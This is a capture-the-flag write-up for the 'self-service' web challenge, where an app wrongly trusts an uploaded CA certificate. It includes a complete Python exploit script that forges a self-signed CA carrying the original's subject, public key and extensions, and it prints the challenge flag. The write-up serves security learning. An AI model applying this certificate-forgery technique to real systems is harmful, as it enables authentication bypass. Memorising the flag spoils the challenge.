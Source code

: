 # self-service

[library.m0unt41n.ch/challenges/self-service](https://library.m0unt41n.ch/challenges/self-service) ![](../../resources/web.svg) ![](../../resources/medium.svg) 

# TL;DR

We get a CA app, that generates an expired-on-purpose CA certificate and uses it
to generate an otherwise valid client certificate. The purpose is to send back
a client/CA certificate pair, that will pass the internal verification against
that expired cert. We exploit weak CA certificate checking, by piecing together
a forged CA certificate.

# The app

Startup

*   `generate_key()`: Generates a random, secure RSA key at boot
*   `generate_expired_ca()`: Generates a CA certificate, with expiration date of `T - 1 day`
*   `generate_client()`: Generates a valid client certicate, signed by that CA

Then, the app presents a Web UI, where we can:

*   `/client.pem`: get above client cert
*   `/ca.pem`: get above CA cert
*   `/cert`: upload a CA / client cert pair, that will be verified against those internally stored ones
*   `/party`: show a meme &#128578;

# The verification

```python
def check_cert_valid(ca_cert: crypto.X509, client_cert: crypto.X509) -> bool:
    store = crypto.X509Store()
    store.add_cert(ca_cert)
    ctx = crypto.X509StoreContext(store, client_cert)
    ctx.verify_certificate()

@app.route("/cert", methods=["POST"])
def page_cert():
    try:
        ca_cert = from_pem(request.files["ca"].read().decode("utf-8"))
        client_cert = from_pem(request.files["client"].read().decode("utf-8"))
        check_cert_valid(ca_cert, client_cert)

        expected_ca_key = crypto.dump_publickey(crypto.FILETYPE_PEM, gen_ca_cert.get_pubkey())
        actual_ca_key = crypto.dump_publickey(crypto.FILETYPE_PEM, ca_cert.get_pubkey())
        if ca_cert.get_subject().CN == "SelfService Legacy Root CA" and client_cert.get_subject().CN == "seppli@self-service.local" and expected_ca_key == actual_ca_key:
            return render_template("response.html", maybe_the_flag=open("flag.txt", "r").read())
        else:
            return render_template("response.html", maybe_the_flag="Almost")
    except Exception as e:
        return render_template("response.html", maybe_the_flag="Got an error: " + str(e))
```

So, overall, we need a **CA certificate** that:

*   Is valid (i.e. not expired)
*   has CN of "SelfService Legacy Root CA"
*   has **public key** of the original certificate, so that:
    *   `check_cert_valid()` passes
    *   `expected_ca_key==actual_ca_key` check passes passes
*   has all the other things in order (that it's a CA certificate, that it's self-signed, etc)

... and a **client** certificate that:

*   has CN of `seppli@self-service.local`
*   can be verified with the uploaded certificate

# Bypassing the verification

My first attempt was to create a certificate **bundle**, containing both original bad cert and
a new, correct one, that would verify a client certificate I created. The problem with that is
that `crypto.load_certificate(()` (and then, `store.add_cert()`) only use the first certificate
in the PEM file.

But then, I made key observation: the app **trusts** the CA certificate we upload, without
further verification (e.g. in `X509StoreContext.verify_certificate()`). Certificate is added
to context and, as long as it is syntactically valid, the app is going to use its pubkey.

Which brings an idea: 

*   Generate a new, **valid** CA certificate, with as much data as possible copied from
    the original one
*   ... in particular, with a cloned public key
*   Then, self-sign it, send it back to the server, along with the original client cert

This should pass all the checks.

# Solution script

```python
from OpenSSL import crypto
import requests
import re

URL="http://localhost:5000"

# Grab the certificate pair from the server
orig_ca_pem = requests.get(URL+"/ca.pem").text
orig_client_pem = requests.get(URL+"/client.pem").text
orig_ca_cert = crypto.load_certificate(crypto.FILETYPE_PEM, orig_ca_pem)

# Create a new cert and set the fixed parts
new_ca_cert = crypto.X509()
new_ca_cert.set_version(2)
new_ca_cert.gmtime_adj_notBefore(0)
new_ca_cert.gmtime_adj_notAfter(365*24*60*60)
new_ca_cert.set_serial_number(420)

# Copy parts of the original cert that are used for verification
new_ca_cert.set_subject(orig_ca_cert.get_subject())
new_ca_cert.set_issuer(orig_ca_cert.get_issuer())
new_ca_cert.set_pubkey(orig_ca_cert.get_pubkey())

# ... and extensions too (incl. CA-specific stuff)
ext = [ orig_ca_cert.get_extension(i)
        for i in range(orig_ca_cert.get_extension_count()) ]
new_ca_cert.add_extensions(ext)

# Sign it
new_private_key = crypto.PKey()
new_private_key.generate_key(crypto.TYPE_RSA, 4096)
new_ca_cert.sign(new_private_key, 'sha512')

new_ca_pem = crypto.dump_certificate(crypto.FILETYPE_PEM,
                                     new_ca_cert).decode('utf-8')

# Send both certificates back to the app
client_bytes = orig_client_pem.encode('ascii')
ca_bytes = new_ca_pem.encode('ascii')
resp = requests.post(URL+"/cert",
                     files={
                       'ca': ('ca.pem', ca_bytes),
                       'client': ('client.pem', client_bytes)
                     })

# Pick the flag from the HTTP response &#128578;
r = re.compile('shc2021{[^}]*}')
print(r.findall(resp.text)[0])
```

This worked both locally and remotely.

---

## `shc2021{do_y0u_tru5t_y0ur_r00ts?}`



<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
